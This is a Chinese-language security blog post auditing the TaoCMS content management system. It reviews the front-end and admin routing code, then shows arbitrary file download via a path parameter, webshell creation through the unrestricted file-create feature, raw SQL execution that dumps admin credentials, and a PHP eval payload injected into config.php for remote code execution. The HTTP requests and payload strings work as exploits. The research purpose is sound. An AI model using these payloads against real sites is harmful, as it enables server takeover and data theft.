










# Taocms审计2


不知道怎么回事，本地的taocms审计一本地文档消失了……

  

&lt;!--more--&gt;

  

&lt;font size=1&gt;原本是打算继续按照文档的顺序来读的，但是实在看得有点艰难，所以就从GUI看起。&lt;/font&gt;

  

----

  

# download &amp; init

  

环境：用的是windows 11 &#43; phpstudy_pro，Nginx1.15.11，MySQL5.7.26

  

- 这里需要注意的是要在配置的时候创建一个数据库，后面install用得到。

- phpstudy_pro的数据库端口默认3306（其实在数据库配置中也可以看到）。

- 根目录要到你下载的那个cms源码文件夹，不然可能访问不了（别问我怎么知道的QAQ）

  

看到这个界面就安装成功了:



  

扫描一下：



  

----

-----

  

# 路由：

  
  
  

&gt; taocms 的路由

  

前台功能点路由:`wap/api.php`

后台功能点路由：`admin/admin.php`

  

## 前台

  

```php

//api.php

&lt;?php

session_start();

include(&#39;config.php&#39;);//包含config.php调用其所含配置

include(SYS_ROOT.INC.&#39;common.php&#39;);//同上

$ctrl=$_REQUEST[&#39;ctrl&#39;];//request方法传入参数ctrl，$ctrl接收

$action=$_REQUEST[&#39;action&#39;];//同上

$m=ucfirst($action);//将字符串第一个字符设为大写，为后面类名实例化做准备——类首字母均为大写

if(!in_array($m,array(&#39;Api&#39;,&#39;Comment&#39;)))die;//判断是否存在Api和Comment，存在就die

$model=new $m();//类名实例化

//这个实例中$ctrl存在，就在实例基础上调用$ctrl()

if (method_exists($m,$ctrl)) {

    $model-&gt;$ctrl();

}

```

  

```php

//common.php部分

function __autoload($name) {

    $path=SYS_ROOT.&#39;include/Model/&#39;.ucfirst($name). &#39;.php&#39;;//调用include/Model中所有文件功能代码

    if(file_exists($path)){

         include $path;

    }else{

        return false;

    }

}

  

```

  

## 后台

  

```php

//admin.php

//与前台一个道理

&lt;?php

session_start();//创建新session

include &#34;../config.php&#34;;

include &#34;../include/common.php&#34;;

$action=$_REQUEST[&#39;action&#39;];

$ctrl=$_REQUEST[&#39;ctrl&#39;];

$id=(array)$_REQUEST[&#39;id&#39;];

  

//增加校验

//请登录

  

//对传入参数的校验

if(!Base::checkadmin()&amp;&amp;$ctrl!=&#39;login&#39;&amp;&amp;$ctrl!=&#39;checkUser&#39;){

    Base::showmessage(&#39;&#39;,&#34;index.php?action=login&#34;,1);

}

  

$referInfo=parse_url($_SERVER[&#39;HTTP_REFERER&#39;]);

$referHost=isset($referInfo[&#39;port&#39;])?&#34;{$referInfo[&#39;host&#39;]}:{$referInfo[&#39;port&#39;]}&#34;:$referInfo[&#39;host&#39;];

  

//对host和ctrl的校验

if($referHost !== $_SERVER[&#39;HTTP_HOST&#39;]&amp;&amp;$ctrl!=&#39;login&#39;){

    Base::showmessage(&#39;refer error&#39;,&#39;admin.php?action=frame&amp;ctrl=logout&#39;);

}

  

//如果有$action，就进行实例化便于后续调用

if(Base::catauth($action)){

    if(class_exists($action)){

        $model=new $action($action,$id);

        if (method_exists($action,$ctrl)) {

            $model-&gt;$ctrl();

        }

    }

}

  

?&gt;

```

  

---

---

  

# Model/

  

## 任意文件下载

  

前面在文件上传的部分提到过它，但没有来得及更新文档一，文档一就离我而去了。

  
  

&lt;br&gt;

  

根据前面的分析:



  

&lt;table&gt;&lt;tr&gt;&lt;td bgcolor=yellow&gt; &lt;b&gt;action&lt;/b&gt; 传入需要实例化的类名， &lt;b&gt;ctrl&lt;/b&gt; 传入需要调用的方法。&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;

  

根据file.php提供的线索可以知道，它提供功能给 **文件管理** ,点击已存在的文件：

```http

//api.php

GET /admin/admin.php?action=file&amp;ctrl=edit&amp;path=api.php HTTP/1.1

```

&lt;br&gt;

&lt;br&gt;

  

随便新建文件 `fly.php`，抓包后得到：

  

```http

GET /admin/admin.php?path=&amp;action=file&amp;ctrl=create&amp;isdir=0&amp;name=fly.php&amp;fbtn=%E6%96%B0%E5%BB%BA%E6%96%87%E4%BB%B6 HTTP/1.1

Host: taocms

  

//找了一下，fbtn出现在managerfile.php中，作为input name 和 id

```

  

由上面两个例子可以看到，就如我们所说，path可控所以

  

修改path再调用存在问题的`function download()`：

  

```http

  

GET /admin/admin.php?path=/rss.php&amp;action=file&amp;ctrl=download HTTP/1.1

Host: taocms

  

```

  

得到



  

做到了&lt;table&gt;&lt;tr&gt;&lt;td bgcolor=yellow&gt;任意文件下载。&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;

  
  

----

----

  

## 任意文件上传

  

### upload？

  

在管理界面到处找找，于是找到**上传**这个东西，打开:



  
  

用php文件测试一下

  



  
  

as you can see:

```php

//upload.php部分

function upload($inputname,$attachdir=&#39;pictures/&#39;,$urldir=&#34;&#34;,$dirtype=1,$maxattachsize=10097152)

    {

        $upext=&#39;txt,rar,zip,jpg,jpeg,gif,png,swf,wmv,avi,wma,mp3,mid,jar,jad,exe,html,htm,css,js,doc&#39;;//上传扩展名

        $err = &#34;&#34;;

        $msg = &#34;&#34;;

        $upfile=$_FILES[$inputname];

        $fileinfo=pathinfo($upfile[&#39;name&#39;]);//通过pathinfo()获取文件扩展名

```

白名单很难绕过

  

而`pathinfo()`

  

```txt

name = example.png

Array

(

    [dirname] =&gt; .

    [basename] =&gt; example.jpg

    [extension] =&gt; jpg

    [filename] =&gt; example

)

  

name = test.php.png

Array

(

    [dirname] =&gt; .

    [basename] =&gt; test.php.png

    [extension] =&gt; png

    [filename] =&gt; test.php

)

```

或许文件包含？不过在那之前先看另一个界面， **新建文件/文件夹**

  

### create？

  

```php

//File.php部分

function create(){

        if(!$_GET[&#39;name&#39;]){

            Base::showmessage(&#39;请填写文件名/文件夹名&#39;);

        }

        $file=$this-&gt;realpath.&#39;/&#39;.$_GET[&#39;name&#39;];

        if($_GET[&#39;isdir&#39;]==1){

            mkdir($file);

            $str=&#39;目录&#39;;

        }else{

            fopen($file,&#39;a&#39;);

            $str=&#39;文件&#39;;

        }

        if(!is_writable($file))Base::showmessage(&#39;新建&#39;.$str.&#39;失败&#39;);

        $info=pathinfo($this-&gt;path.$_GET[&#39;name&#39;]);

        Base::showmessage(&#39;新建&#39;.$str.&#39;成功&#39;,&#39;admin.php?action=file&amp;ctrl=lists&amp;path=&#39;.$info[&#39;dirname&#39;]);

    }

```

大致看一遍会发现，对于建立的文件没有任何限制，所以就新建 `ice.php`然后写入：

  



  

然后用菜刀之类的工具，URL填的就是&lt;code&gt;http://taocms/ice.php&lt;/code&gt;,密码填 cmd ，ok，连上。

如果直接访问&lt;code&gt;http://taocms/ice.php&lt;/code&gt;其实什么也看不到，稍微修改一下&lt;code&gt;ice.php&lt;/code&gt;里面写入的内容就可以实现其他的操作了。

&lt;br&gt;

  

有趣的是，由于这个cms里面管理员后台可以对所有文件进行查看和编辑，所以前面那个对于文件上传的白名单完全可以被修改，也不用费力气去找其他突破点。LOL。

&lt;br&gt;

  

----

----

  

## SQL

  

有一个执行SQL，所以去看看

  

```php

//sql.php部分

function excute(){

        $creatTable=Base::magic2word($_POST[&#39;sqltext&#39;]);//传入的SQL语句作为sqltext的值&lt;

        $db=new Dbclass(SYS_ROOT.DB_NAME);//创建新db类

        $o=$db-&gt;query($creatTable);//用query执行传入的SQL语句&lt;

        echo&#39;&lt;pre&gt;&#39;;

        print_r($db-&gt;fetch_array($o));

        Base::execmsg(&#39;执行SQL&#39;,&#39;?action=sql&amp;ctrl=display&#39;,$o);//execmsg()只负责报信

    }

```

  

一样的，对所执行的SQL语句没有什么限制。

  

#### TEST

  
  

- 1.&lt;code&gt;show tables;&lt;/code&gt;



  

可以得知：&lt;br&gt;1.database name &amp;#x3D; &lt;code&gt;taocms&lt;/code&gt;&lt;br&gt;2.表名是&lt;code&gt;cms_admin&lt;/code&gt;

  
  

- 2.&lt;code&gt;select * from cms_admin;&lt;/code&gt;



这里有趣的是，在 用户修改 这个模块里看不到的管理员密码就这么找到了。要说有什么用，目前我也没看出来。&lt;/p&gt;

&lt;hr&gt;

  

有个添加用户的，也许会有越权？

  
  

&lt;hr&gt;

&lt;hr&gt;

  

## Config

  

如果搞过一点类似cms或者blog的搭建，都会知道config这个名字意味着这个文档是关于整个system的配置。

  

as you can see:

  



  

对于config一类文档，考虑的问题在于：

  

- &lt;table&gt;&lt;tr&gt;&lt;td bgcolor=yellow&gt;是否可以写入&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;

- &lt;table&gt;&lt;tr&gt;&lt;td bgcolor=yellow&gt;是否可以访问&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;

  

----

  

## update()

  
  

查看`config.php`

里面有三个function，第三个看起来就是毫无利用价值的，第一个太复杂，先说第二个`update()`。

  

```php

function update(){

        //这行代码检查`config.php`文件是否可写。如果不可写，它将显示一条消息，指出没有修改配置文件的权限。

        is_writable(SYS_ROOT.&#39;config.php&#39;)||Base::showmessage(&#39;无权限修改配置文件&#39;);

  

        //这行代码从`$_POST`数组中移除`Submit`、`ctrl`和`action`键，这可能是为了确保这些键不会被写入配置文件。

        unset($_POST[&#39;Submit&#39;]);unset($_POST[&#39;ctrl&#39;]);unset($_POST[&#39;action&#39;]);

        //接下来的几行代码创建一个新的配置文件内容。它遍历`$_POST`数组中的每个键值对，并为每个键创建一个定义语句。这些定义语句将被写入配置文件。$key是键。$configs是键值，然后用Base::safeword对$config进行安全检查

        $configData=&#34;&lt;?php\r\n&#34;;

        foreach($_POST as $key=&gt;$configs){

            $configData.=&#34;define(&#39;&#34;.$key.&#34;&#39;,    &#39;&#34;.Base::safeword($configs).&#34;&#39;);\r\n&#34;;

        }

        $configData.=&#34;?&gt;&#34;;

  

        //将新的配置文件内容写入`config.php`文件。

        $status=file_put_contents(SYS_ROOT.&#34;config.php&#34;,$configData);

        Base::execmsg(&#34;保存设置&#34;,&#34;?action=&#34;.$this-&gt;table.&#39;&amp;ctrl=display&#39;,TRUE);

    }

```

  
  

&lt;br&gt;

  

不用特别仔细看就可以从`unset()`这里知道参数以 **POST** 方法传入。以及这个文件可以写入，不过是有条件的写入。以及得到了传入的$_POST的值的$configs自带`&lt;?php` 和 `?&gt;`，指明构造PHP version的payload。

&lt;br&gt;

  

由第三个注释知道，重点在于`foreach()`中，然后就是`Base::safeword()`如何进行检查？

  

----

  

## safeword()

  
  
  

```php

//Base.php

  

    static function safeword($text,$level=8){

        //是否为数组

        if(is_array($text))

        {

            //键为$key，键值为$value

            foreach( $text as $key=&gt;$value){

                //结果存入$safeword，这也是一个数组。

                $safeword[$key]=self::safeword($value);

            }

        }

        //不是数组进行switch

        else

        {

            switch ($level)

            {

                //不进行处理

                case 0:

                    $safeword=$text;

                    break;

                //转整数

                case 1:

                    $safeword=intval($text);

                    break;

                //移除所有HTML标签

                case 3:

                    $safeword=strip_tags($text);

                    break;

                //将特殊字符转化为HTML实体，并将换行符转换为&lt;br/&gt;标签

                case 5:

                    $safeword=nl2br(htmlspecialchars($text));

                    break;

                //添加&#39;来转义$text中出现的单引号，移除关键词与符号select, union,=，避免SQL Injection

                case 6:

                    $safeword=str_replace(&#34;&#39;&#34;,&#34;&#34;,addslashes($text));

                    $safeword=str_replace(&#34;select&#34;,&#34;&#34;,$safeword);

                    $safeword=str_replace(&#34;union&#34;,&#34;&#34;,$safeword);

                    $safeword=str_replace(&#34;=&#34;,&#34;&#34;,$safeword);

                    break;

                default://默认level=8时为default

  

                    //如果数据库类型是Sqlite，将$text中出现的单引号都替换为两个单引号。

                    if(ucfirst(DB)==&#39;Sqlite&#39;){

                        $safeword=str_replace(&#34;&#39;&#34;,&#34;&#39;&#39;&#34;,$text);

                    }

                    //不是Sqlite，就用_addslashs()来处理$text.该函数静态调用addslashs()函数处理$text

                    else{

                        $safeword=Base::_addslashs($text);

                    }

                    break;

            }

        }

        return $safeword;

    }

```

  

1. `addslashes()`函数：在PHP中，`addslashes()`函数的主要作用是在预定义字符前添加反斜线。预定义字符包括单引号(&#39;)，双引号(&#34;)，反斜线(\)和NULL。

  

2. 将特殊字符转化为HTML实体，并将换行符转换为`&lt;br/&gt;`标签：在PHP中，可以使用`htmlentities()`函数将字符转换为HTML实体。这样做的目的是防止跨站脚本攻击（XSS），并确保文本在HTML文档中正确显示。例如，如果你的文本中包含`&lt;`或`&gt;`等字符，它们可能会被浏览器误解为HTML标签。通过将这些字符转换为HTML实体，你可以确保它们会被正确地显示为文本，而不是被解析为HTML代码。同样，`nl2br()`函数可以将字符串中的换行符转换为HTML的`&lt;br/&gt;`标签，这样在HTML文档中就可以正确地显示换行了。

  

3. 将单引号替换为两个单引号：在SQLite中，单引号是字符串的界定符。如果字符串中包含单引号，SQLite可能会将其误解为字符串的结束，从而导致错误。为了避免这种情况，将字符串中的单引号替换为两个单引号。这样，SQLite就会知道这是一个字面上的单引号，而不是字符串的结束。

  
  

&lt;br&gt;

&lt;br&gt;

  

在了解完这些代码在说什么之后，发现除了level 8这个default，其他都有较为严苛的限制。而在default中，有一个if else的限制，`Base::_addslashs()`不能绕过，就focus on **Sqlite**。

  

## Sqlite

  

构造payload：

&lt;code&gt;`\`&#39;;@eval($_REQUEST[1];/*&lt;/code&gt;

  

$safeword之后

  

`\&#39;&#39;;@eval($_REQUEST[1];/*`

  

与`congig.php`中WEBINFO define的`&#39;`进行闭合，让PHP代码逃逸进而成功写入。

  

然后访问`http://taocms/config.php?1=phpinfo();`

getshell成功。

  

最后的`/*`也可以写成`//`

  

----

----


---

> Author:   
> URL: https://66lueflam144.github.io/posts/2cceb2d/  

